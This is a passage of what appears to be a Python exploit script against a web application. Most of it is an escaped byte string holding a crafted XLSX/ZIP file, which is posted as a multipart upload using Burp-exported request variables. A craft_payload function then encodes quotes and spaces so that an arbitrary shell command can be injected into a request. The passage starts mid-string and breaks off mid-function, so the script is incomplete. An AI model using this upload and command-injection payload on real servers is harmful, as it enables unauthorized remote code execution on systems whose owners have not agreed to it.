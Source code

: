 ```python
xb4s\x86,\x9a\x8c\xfc\x116\xf4\xf9\xc2\xce)\x95\xb2\xf7\x9cn\x8b\xaf?\x8f\xfc\x05PK\x03\x04\n\x00\x00\x00\x00\x00[nOS\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\t\x00\x1c\x00xl/_rels/UT\t\x00\x03m\xb1ia[\xbeiaux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x03\x04\x14\x00\x00\x00\x08\x00\x00\x00!\x00\x81>\x94\x97\xec\x00\x00\x00\xba\x02\x00\x00\x1a\x00\x1c\x00xl/_rels/workbook.xml.relsUT\t\x00\x030\xd0\xce\x12\x8c\xb1iaux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00\xadR\xcbj\xc30\x10\xbc\x17\xfa\x0fb\xef\xb5\xec\xb4\x94R\"\xe7\x12\n\xb9\xb6\xee\x07\x08im\x99\xd8\x92\xd0n\x1f\xfe\xfb\xaa\rm\x1c\x08\xa1\x07\x9f\x96\x19\xb13\xa3\xdd]o>\xc7A\xbcc\xa2>x\x05UQ\x82@o\x82\xed}\xa7\xe0\xb5y\xbay\x00A\xac\xbd\xd5C\xf0\xa8`B\x82M}}\xb5~\xc6Asn\"\xd7G\x12Y\xc5\x93\x02\xc7\x1c\x1f\xa5$\xe3p\xd4T\x84\x88>\xbf\xb4!\x8d\x9a3L\x9d\x8c\xda\xecu\x87rU\x96\xf72\xcd5\xa0>\xd1\x14;\xab \xed\xec-\x88f\x8a\xf8\x1f\xed\xd0\xb6\xbd\xc1m0o#z>c!\x89\xa7!@4:u\xc8\n\x0e\xb8\xc8: \xcf\xdb\xaf\x96\xb4\xe7\xdc\x8bG\xf7\x1fx \xabK\x19\xaa%3|\x84\xb4'\x87\xc8\xc7\x1cT\x1e\xd0w\xb9\x18\xe6n\xd1}8\x9d\xd0\xbep\xca\xe76_\xcb\x9c\xfe\r#O.\xae\xfe\x02PK\x01\x02\x1e\x03\x14\x00\x00\x00\x08\x00\x00\x00!\x00b\xee\x9dhO\x01\x00\x00\x90\x04\x00\x00\x13\x00\x18\x00\x00\x00\x00\x00\x01\x00\x00\x00\xff\x81\x00\x00\x00\x00[Content_Types].xmlUT\x05\x00\x030\xd0\xce\x12ux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x01\x02\x1e\x03\n\x00\x00\x00\x00\x00[nOS\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x06\x00\x18\x00\x00\x00\x00\x00\x00\x00\x10\x00\xffA\x9c\x01\x00\x00_rels/UT\x05\x00\x03m\xb1iaux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x01\x02\x1e\x03\x14\x00\x00\x00\x08\x00\x00\x00!\x00\xb5U0#\xeb\x00\x00\x00L\x02\x00\x00\x0b\x00\x18\x00\x00\x00\x00\x00\x01\x00\x00\x00\xff\x81\xdc\x01\x00\x00_rels/.relsUT\x05\x00\x030\xd0\xce\x12ux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x01\x02\x1e\x03\n\x00\x00\x00\x00\x00[nOS\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\t\x00\x18\x00\x00\x00\x00\x00\x00\x00\x10\x00\xffA\x0c\x03\x00\x00docProps/UT\x05\x00\x03m\xb1iaux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x01\x02\x1e\x03\x14\x00\x00\x00\x08\x00\x00\x00!\x003-\xc0tv\x01\x00\x00\x13\x03\x00\x00\x10\x00\x18\x00\x00\x00\x00\x00\x01\x00\x00\x00\xff\x81O\x03\x00\x00docProps/app.xmlUT\x05\x00\x030\xd0\xce\x12ux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x01\x02\x1e\x03\x14\x00\x00\x00\x08\x00\x00\x00!\x00/\x99t\xe87\x01\x00\x00q\x02\x00\x00\x11\x00\x18\x00\x00\x00\x00\x00\x01\x00\x00\x00\xff\x81\x0f\x05\x00\x00docProps/core.xmlUT\x05\x00\x030\xd0\xce\x12ux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x01\x02\x1e\x03\n\x00\x00\x00\x00\x00[nOS\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x18\x00\x00\x00\x00\x00\x00\x00\x10\x00\xffA\x91\x06\x00\x00xl/UT\x05\x00\x03m\xb1iaux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x01\x02\x1e\x03\x14\x00\x00\x00\x08\x00\x00\x00!\x00\x126\"\xcc\x95\x00\x00\x00\xb2\x00\x00\x00\x14\x00\x18\x00\x00\x00\x00\x00\x01\x00\x00\x00\xff\x81\xce\x06\x00\x00xl/sharedStrings.xmlUT\x05\x00\x030\xd0\xce\x12ux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x01\x02\x1e\x03\x14\x00\x00\x00\x08\x00\x00\x00!\x00y\xa1\x80l\x8d\x02\x00\x00R\x06\x00\x00\r\x00\x18\x00\x00\x00\x00\x00\x01\x00\x00\x00\xff\x81\xb1\x07\x00\x00xl/styles.xmlUT\x05\x00\x030\xd0\xce\x12ux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x01\x02\x1e\x03\n\x00\x00\x00\x00\x00[nOS\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\t\x00\x18\x00\x00\x00\x00\x00\x00\x00\x10\x00\xffA\x85\n\x00\x00xl/theme/UT\x05\x00\x03m\xb1iaux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x01\x02\x1e\x03\x14\x00\x00\x00\x08\x00\x00\x00!\x00h<\x03}\x99\x06\x00\x00\xc8 \x00\x00\x13\x00\x18\x00\x00\x00\x00\x00\x01\x00\x00\x00\xff\x81\xc8\n\x00\x00xl/theme/theme1.xmlUT\x05\x00\x030\xd0\xce\x12ux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x01\x02\x1e\x03\x14\x00\x00\x00\x08\x00\xb3uOS\xc6\xd2\xda4\xc8\x03\x00\x00\x08\t\x00\x00\x0f\x00\x18\x00\x00\x00\x00\x00\x01\x00\x00\x00\xff\x81\xae\x11\x00\x00xl/workbook.xmlUT\x05\x00\x03B\xbeiaux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x01\x02\x1e\x03\n\x00\x00\x00\x00\x00[nOS\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x0e\x00\x18\x00\x00\x00\x00\x00\x00\x00\x10\x00\xffA\xbf\x15\x00\x00xl/worksheets/UT\x05\x00\x03m\xb1iaux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x01\x02\x1e\x03\x14\x00\x00\x00\x08\x00\x00\x00!\x00E\xb6j\xbc\x11\x02\x00\x00\x81\x04\x00\x00\x18\x00\x18\x00\x00\x00\x00\x00\x01\x00\x00\x00\xff\x81\x07\x16\x00\x00xl/worksheets/sheet1.xmlUT\x05\x00\x030\xd0\xce\x12ux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x01\x02\x1e\x03\n\x00\x00\x00\x00\x00[nOS\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\t\x00\x18\x00\x00\x00\x00\x00\x00\x00\x10\x00\xffAj\x18\x00\x00xl/_rels/UT\x05\x00\x03m\xb1iaux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x01\x02\x1e\x03\x14\x00\x00\x00\x08\x00\x00\x00!\x00\x81>\x94\x97\xec\x00\x00\x00\xba\x02\x00\x00\x1a\x00\x18\x00\x00\x00\x00\x00\x01\x00\x00\x00\xff\x81\xad\x18\x00\x00xl/_rels/workbook.xml.relsUT\x05\x00\x030\xd0\xce\x12ux\x0b\x00\x01\x04\xe8\x03\x00\x00\x04\xe8\x03\x00\x00PK\x05\x06\x00\x00\x00\x00\x10\x00\x10\x00F\x05\x00\x00\xed\x19\x00\x00\x00\x00\r\n------WebKitFormBoundaryX8EzGd8nAoSVFtBe--\r\n"
	session.post(burp0_url, headers=burp0_headers, data=burp0_data)

def craft_payload(command):
	command = command.replace('"', '%5Cu0022').replace("'","%5Cu0027").replace(' ',"%20")
```